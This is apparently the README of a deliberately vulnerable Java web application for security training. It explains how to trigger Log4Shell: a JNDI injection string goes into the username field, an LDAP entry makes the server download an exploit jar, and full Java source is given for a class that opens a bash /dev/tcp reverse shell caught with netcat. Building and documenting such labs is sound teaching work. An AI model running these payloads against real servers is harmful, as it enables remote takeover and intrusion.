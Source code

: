 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following code into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```

![JNDI log4shell injection](site/img/jndi-injection.jpg)


The in-memory server has the following `javaNamingReference` object which will be looked up by the JNDI service invoked by the log4j substitution code path:

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceExploit` first from the local classpath (where it does not exist), then from the URL codebase provided by the LDAP entry. This triggers the download of the referenced `jar` file, and the instatiation of the `uk.ac.jisc.cybersec.rce.RceExploit` class. Triggering the static method in the malicious class:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To establish a remote network connection to the compromised web-server, you (as the *bad-actor*) must start a listener on port `8083`. For example, using `netcat`:


```bash
nc -l 8083
```

Currently, this is limited to listening on *localhost* or the IP *127.0.0.1* and port *8083* (see how the `RceReverseShellExploit` class is establishing a remote shell). 
